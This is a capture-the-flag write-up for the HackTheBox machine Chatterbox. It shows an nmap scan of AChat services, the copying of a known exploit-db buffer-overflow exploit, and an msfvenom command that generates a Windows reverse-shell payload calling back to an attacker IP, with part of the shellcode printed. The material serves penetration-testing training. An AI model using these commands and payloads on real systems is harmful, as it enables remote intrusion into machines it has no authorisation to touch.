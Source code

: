 ## Public Exploit Enumeration ⤵️

I got this port `9255`,`9256` open so I started doing service version scan through nmap and got →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Chatterbox]
└─$ sudo nmap -sV -p 9255,9256 10.10.10.74                        

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system
```
{: .nolineno}
{: .nolineno}

Now I searched online related to this exploit and got it →

![Untitled](Chatterbox/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Chatterbox]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/36025.py achat.py
                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads/HTB/Chatterbox]
└─$ open achat.py
```
{: .nolineno}
{: .nolineno}

It is basically performing buffer overflow attack and I need to have latest payload modified from attacker machine to execute it →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Chatterbox]
└─$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=10.10.16.29 lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3822 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
...
...
```
{: .nolineno}
{: .nolineno}
